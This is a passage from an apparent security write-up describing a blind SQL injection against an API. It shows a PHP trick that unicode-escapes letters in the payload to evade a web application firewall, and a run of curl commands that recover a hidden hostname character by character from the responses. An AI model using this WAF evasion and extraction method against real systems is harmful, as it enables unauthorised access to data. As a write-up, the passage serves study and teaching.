 ```
// Add some obfuscation to defeat the WAF :)
echo str_replace(
    ["C",      "S",      "T",      "W"],
    ["\u0043", "\u0053", "\u0054", "\u0057"],
    $payload
);
```

(I probably could have generated all the WHEN "x" THEN y parts of the query with a loop but all I can say to that is: ¯\_(ツ)_/¯)

With my script in hand I could try and figure out the rest of that pesky hostname; using awk '{print $NF}' to print the last field (i.e. the `type_id`), and uniq to remove the duplicates.

First character:

```
tom@bash:~▶ curl -s $APIURL -d @<(php gensql.php 1) | gron | grep type_id | awk '{print $NF}' | uniq
27;
```

Consulting my lookup table, that’s an r! Good, I knew that, so it looks like it’s working. More characters:

```
tom@bash:~▶ curl -s $APIURL -d @<(php gensql.php 2) | gron | grep type_id | awk '{print $NF}' | uniq
11;
tom@bash:~▶ curl -s $APIURL -d @<(php gensql.php 3) | gron | grep type_id | awk '{print $NF}' | uniq
10;
tom@bash:~▶ curl -s $APIURL -d @<(php gensql.php 4) | gron | grep type_id | awk '{print $NF}' | uniq
2;
```

`11`, `10`, and `2`; that’s `e`, `d`, and `a`. Hmm, `reda`? Let’s keep going…

```
tom@bash:~▶ curl -s $APIURL -d @<(php gensql.php 5) | gron | grep type_id | awk '{print $NF}' | uniq
9;
tom@bash:~▶ curl -s $APIURL -d @<(php gensql.php 6) | gron | grep type_id | awk '{print $NF}' | uniq
29;
tom@bash:~▶ curl -s $APIURL -d @<(php gensql.php 7) | gron | grep type_id | awk '{print $NF}' | uniq
11;
tom@bash:~▶ curl -s $APIURL -d @<(php gensql.php 8) | gron | grep type_id | awk '{print $NF}' | uniq
10;
```

`9`, `29`, `11`, and `10`… So that’s `c`, `t`, `e`, and `d`.

